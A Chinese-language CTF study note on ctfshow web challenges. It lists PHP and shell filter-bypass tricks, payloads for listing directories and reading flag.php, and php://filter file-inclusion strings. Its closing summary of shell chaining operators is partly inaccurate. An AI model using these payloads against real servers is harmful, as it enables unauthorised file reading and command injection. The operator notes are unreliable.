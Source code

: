 ```yaml
---
title: web入门2-php1
date: 2024-06-11
categories:
  - 学习笔记
tags:
  - 初学者
  - 日记
---
```


​    

##     php(绕过)

- ![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810171504710.webp)

- ![](D:\image (1).png)

- 使用url编码

1. ```
   %09（tab） %20（sapce）
   ```

2. ```
   绕过cat使用：
   tac more less head tac tail nl od(二进制查看) vi vim sort uniq rev
   ```

3. ```
   绕过空格用：
   %09 <> ${IFS} $IFS$ {cat,fl*} %20
   ```

4. ```
   对flag的过滤（这里也就几个，索性就全丢出来了）
   1.‘’    （例如fl‘’ag）
   2.“”     （例如fl""ag)
   3.?       (例如fl??)
   4.*          (例如fl*）
   ```

   

## 命令相关

```
c=show_source('flag.php');
c=highlight_file('flag.php');
c=print_r(scandir(dirname(__FILE__)));#扫描当前目录有什么文件
c=$a=opendir('./');while(($file = readdir($a)) !=false){echo $file." ";} #扫描当前目录有什么文件"
c=print_r(scandir(current(localeconv())));#扫描当前目录有什么文件
c=highlight_file(next(array_reverse(scandir((dirname(__FILE__))))));
```

**在这块，ctfshow的web61到65基本都能用**

但是在66就不同了。show_source 被禁用。
先使用 scandir() 进行[目录扫描](https://so.csdn.net/so/search?q=目录扫描&spm=1001.2101.3001.7020)c=print_r(scandir('.'))
![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810171957598.webp)

当前目录下只有 index.php 和 flag.php 	扫描根目录；c=print_r(scandir('/'));

![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810172032733.webp)

### **目录扫描的方法**

![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810172116982.webp)

![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810172135277.webp)

![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810172154372.webp)

其他常用的突破方式：

https://blog.csdn.net/qq_60518252/article/details/122686401?fromshare=blogdetail&sharetype=blogdetail&sharerId=122686401&sharerefer=PC&sharesource=2301_80915592&sharefrom=from_link

highlight_file 读取，如读取的被禁用了，那么可以用文件包含

c=include('/flag.txt');

print_r 也被禁用了，那就用var_dump	 var_export 函数打印变量c=var_export(scandir('/'));

### 当是get时，include文件包含

/?c=include"$_GET[a]"?>&a=php://filter/convert.base64-encode/resource=flag.php

### 当是post时，include文件包含

c=include($_POST['file']);&file=php://filter/convert.base64-encode/resource=flag.php

------

| //只执行后面那条命令

 || //只执行前面那条命令

 & //两条命令都会执行

 && //两条命令都会执行

